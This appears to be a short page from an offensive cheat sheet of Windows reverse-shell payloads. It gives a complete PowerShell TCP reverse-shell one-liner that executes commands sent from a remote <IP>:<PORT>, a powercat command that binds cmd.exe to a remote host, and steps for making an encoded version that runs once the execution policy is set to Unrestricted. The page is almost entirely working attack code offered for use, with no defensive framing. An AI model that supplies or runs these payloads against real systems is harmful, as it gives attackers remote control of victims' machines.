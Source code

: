 ## Windows
### PowerShell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```

### Powercat
```powershell
powercat -c <IP> -p <PORT> -e cmd.exe
```

#### Encripted payload
Enable script execution
```
> Set-ExecutionPolicy Unrestricted
>  powercat -c <IP> -p <PORT> -e cmd.exe -ge > reverseshell.ps1
> powershell -E AaQBtAEUAbgBkACgAIgBgAHIAI[...]
```



